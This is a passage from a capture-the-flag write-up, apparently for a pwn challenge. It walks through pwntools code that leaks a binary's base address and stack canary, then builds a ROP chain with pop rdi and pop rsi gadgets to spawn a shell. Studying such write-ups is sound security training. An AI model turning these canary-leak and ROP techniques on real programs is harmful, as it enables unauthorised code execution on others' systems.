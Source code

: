The above will send _9_ bytes (see analysis section), the 9th byte will overwrite the null of the base process address.

The `puts` will send two lines, the `A`'s followed by 5 bytes--the base process address leak.

The rest just computes the address of our binary and reports the location of `name` (for debugging).


### Leak canary

```python
p.sendline('24')
p.sendline(24 * 'A')
p.recvline()
p.recvline()
_ = p.recv(7)
canary = u64(b'\0' + _)
log.info('canary: ' + hex(canary))
```

This works the same as the base process address, except its the canary and we need 7 bytes.

> Canary LSB is null.  Convenient for us.


### Get a shell

```
rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
pop_rsi_r15 = rop.find_gadget(['pop rsi','pop r15','ret'])[0]

payload  = 24 * b'A'
payload += p64(canary)
payload += p64(59)
payload += p64(pop_rdi)
payload += p64(binary.sym.name)
payload += p64(pop_rsi_r15)
payload += p64(0)
payload += p64(0)
payload += p64(binary.sym.yay)

p.sendline(str(len(payload)))
p.sendline(payload)
p.recvline()
p.recvline()

p.interactive()
```

Since `$rdx` is already zero (see analysis section) we just need `pop rdi` and `pop rsi` gadgets.  There's no `pop rsi; ret` in the binary, so we'll have to make do with `pop r15` in there as well.

Our payload starts by filling the 24-byte buffer with 24 `A`'s followed by the leaked canary (without which we'd get an egregious `*** stack smashing detected ***: terminated` error).
